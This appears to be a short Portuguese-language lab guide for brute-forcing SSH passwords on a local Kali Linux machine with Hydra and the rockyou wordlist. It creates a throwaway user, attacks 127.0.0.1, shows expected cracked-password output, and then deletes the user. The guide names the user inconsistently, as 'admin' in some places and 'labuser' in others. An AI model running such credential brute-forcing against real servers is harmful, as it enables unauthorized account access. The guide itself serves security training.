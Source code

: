 # **SSH**

## **Ambiente**

- Kali Linux
- Servidor SSH local ativo em `127.0.0.1:22`
- Usuário alvo: `admin`
- Wordlist: `/usr/share/wordlists/rockyou.txt`

---

## **Passos do lab**

### Verifique se o SSH está rodando

```bash
    sudo systemctl status ssh
```

### Se não estiver rodando

```bash
    sudo systemctl start ssh
```

### Crie um usuário teste para o lab

```bash
    sudo adduser labuser
```

### Habilite o SSH se ainda não estiver ativo

```bash
   sudo systemctl enable ssh
   sudo systemctl start ssh
```

Verifique

```bash
    sudo systemctl status ssh
```

### Execute o Hydra

```bash
    hydra -V -l labuser -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

### Resultado esperado

Senha encontrada:

```bash
    [22][ssh] host: 127.0.0.1   login: admin   password: 123456
```

Senha não encontrada:

```bash
    0 of 1 target completed, 0 valid password found
```

Quando terminar, apague o usuário

```bash
    sudo deluser --remove-home labuser
```
